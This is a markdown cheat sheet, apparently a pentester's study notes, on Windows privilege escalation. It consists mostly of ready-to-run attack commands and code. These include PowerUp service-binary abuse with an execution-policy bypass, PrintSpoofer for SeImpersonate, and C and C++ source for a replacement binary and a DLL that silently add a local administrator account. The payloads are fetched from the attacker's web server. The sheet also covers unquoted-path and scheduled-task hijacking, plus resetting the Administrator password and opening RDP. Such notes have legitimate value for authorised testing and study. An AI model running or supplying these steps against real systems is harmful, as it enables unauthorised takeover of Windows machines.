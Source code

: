 # Windows PrivEsc
Before attempting to leverage the techniques laid out below the enumeration tactics from the `enumeration/windows.md` section should be leveraged.

## Automatic PrivEsc

### Binary Hijacking (PowerUp.ps1)
Nb. This tool (like most) should not be trusted implicitly always and if it fails where enumeration suggests it ought to have succeeded then manual techniques should be employed. By default on a successful exploit it will create an admin user with name `john` and password `Password123!`.

Grab PowerUp:
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
Identify the vulnerable binary:
```powershell
Get-ModifiableServiceFile
```
and exploit:
```powershell
Install-ServiceBinary -Name 'vulnerable-service'
```

### Unquoted Service Paths (PowerUp.ps1)
Grab PowerUp:
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
Identify the vulnerable service:
```powershell
Get-UnquotedService
```
With the vulnerable service identified, feed forward the name and path. Nb. be sure to use the exploit path rather than the actual current location of the binary:
```powershell
Write-ServiceBinary -Name 'VulnerableService' -Path "C:\Program Files\Dumb Apps\Tomfoolery.exe"
```
Don't forget to restart the service!
```powershell
Restart-Service VulnerableService
```

### SeImpersonate
If when running `whoami /priv` we notice that our current user has `SeImpersonatePrivilege`, then we have potential privesc:

Grab the exploit binary like so:
```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
and run like so:
```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

## Manual PrivEsc

### Binary Hijacking
Save the following `C` file on Kali host as `adduser.c`:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user ggilligan12 password123! /add");
  i = system ("net localgroup administrators ggilligan12 /add");
  
  return 0;
}
```
Cross-compile like so, then start the ever faithful web server:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python3 -m http.server 80
```
On the target machine grab the binary:
```powershell
iwr -uri http://<our IP>/adduser.exe -Outfile adduser.exe
```
Move the original binary to a safe place, and replace it with our payload:
```powershell
move C:\path\to\vulnerable\binary.exe binary.exe
move .\adduser.exe C:\path\to\vulnerable\binary.exe
```
Finally restart the service:
```powershell
net stop vulnerable-service
```
If that fails try restarting the machine altogether, leveraging the possiblity that the service will start automatically on startup (verifying this is the case can be done with the relevant command in the `enumeration/windows.md` section):
```powershell
shutdown /r /t 0
```

### DLL Hijacking
Sometimes the file that hosts a binary executable that is running as a service will not be writable, but the DLLs it uses might be. In this event we have an additional way to execute system commands with elevated privilege and add our admin user.

Save the following `C++` file on Kali host as `adduser.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user ggilligan12 password123! /add");
        i = system ("net localgroup administrators ggilligan12 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross compile and serve:
```bash
x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll
python3 -m http.server 80
```
Grab it on the target machine:
```powershell
iwr -uri http://<our IP>/adduser.dll -Outfile adduser.dll
```
Shift it to the vulnerable directory and rename appropriately. Then restart the relevant service:
```powershell
Restart-Service vulnerable-service
```

### Unquoted Service Paths
Run the following to establish the presence of an unquoted service path:
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
If one is found, then write the appropriate malicious binary to the correct path. The C program in the Binary Hijacking section will do nicely.

If the unquoted path reads:
```
C:\Program Files\Silly little spaces\myProgram.exe
```
then we have our choice of the following to write our payload to:
```
C:\Program.exe
C:\Program Files\Silly.exe
C:\Program Files\Silly little.exe
```
There will be as many potential locations of malicious payload as there are spaces in the unquoted service path.

### Scheduled Tasks
In exactly the same vein as binary/DLL hijacking, we're looking to find a binary that is running/will be run as a powerful user, and edit the binary to privesc. Another avenue to exploit here is scheduled tasks. Exactly what they sound like, and exploited in exactly the same way. Enumerated like so:
```cmd
schtasks /query /fo LIST /v
```

### Command Line to RDP
Without a GUI session on a Windows box certain things can become pretty difficult. If we have local admin on a machine the following will allow us to upgrade a shell to a full RDP session as the local admin. Consider saving as a script and just running this:

Update the Administrator password
```powershell
$Password = ConvertTo-SecureString "12345abcde" -AsPlainText -Force;Get-LocalUser -Name "Administrator" | Set-LocalUser -Password $Password
```
Add the Administrator to the RDP Users group if they aren't already there
```powershell
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "Administrator"
```
Enable RDP on the machine
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
It should now be possible to RDP to the machine, not withstanding any further pivoting/port-forwarding that may be necessary:
```bash
xfreerdp /v:192.168.12.34 /u:Administrator /p:12345abcde
```
